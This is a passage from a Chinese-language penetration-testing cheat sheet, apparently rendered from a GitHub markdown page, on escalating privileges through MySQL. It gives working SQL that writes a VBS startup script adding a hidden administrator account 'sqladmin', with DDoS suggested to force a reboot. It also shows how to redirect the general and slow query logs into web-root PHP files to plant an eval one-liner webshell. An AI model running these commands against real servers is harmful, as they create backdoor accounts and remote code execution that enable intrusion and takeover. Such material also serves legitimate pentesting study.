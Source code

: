 ### 启动项提权

在前两种方法都失败时,那可以试一下启动项提权..因为要求达到的条件和 mof 几乎一样,并且要重启服务,所以不是十分推荐.原理还是使用 mysql 写文件,写入一段 VBS 代码到开机自启动中,服务器重启达到创建用户并提权,可以使用 DDOS 迫使服务器重启.

提权条件
1. file_priv 不为 null
2. 已知 root 密码

```sql
create table a (cmd text);
insert into a values ("set wshshell=createobject (""wscript.shell"") " );
insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
```

### 日志 getshell

查询当前 mysql 下 log 日志的默认地址，同时也看下 log 日志是否为开启状态，并且记录下原地址，方便后面恢复。
```sql
-- 开启日志监测，一般是关闭的，如果一直开，文件会很大的。
set global general_log = on;

-- 这里设置我们需要写入的路径就可以了。
set global general_log_file = 'D:/shell.php';

-- 查询一个一句话，这个时候log日志里就会记录这个。
select '<?php eval($_POST['1']);?>';
```

```sql
-- 结束后，再修改为原来的路径。
set global general_log_file = 'D:\xampp\mysql\data\1.log';

-- 关闭下日志记录。
set global general_log = off;
```

### 慢查询日志

MySQL 的慢查询日志是 MySQL 提供的一种日志记录，它用来记录在 MySQL 中响应时间超过阀值的语句。

对日志量庞大，直接访问日志网页极有可能出现 500 错误。通过开启慢查询日志，记录了超时 10s 的 SQL，这样页面的代码量会减轻很多不易导致 500, 配置可解析日志文件 GETSHELL。
```sql
show variables like '%slow%';
```
long_query_time 的默认值为 10，意思是运行 10S 以上的语句。该值可以指定为微秒的分辨率。具体指运行时间超过 long_query_time 值的 SQL，则会被记录到慢查询日志中。

```sql
set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
set GLOBAL slow_query_log=on;
set GLOBAL log_queries_not_using_indexes=on;
```
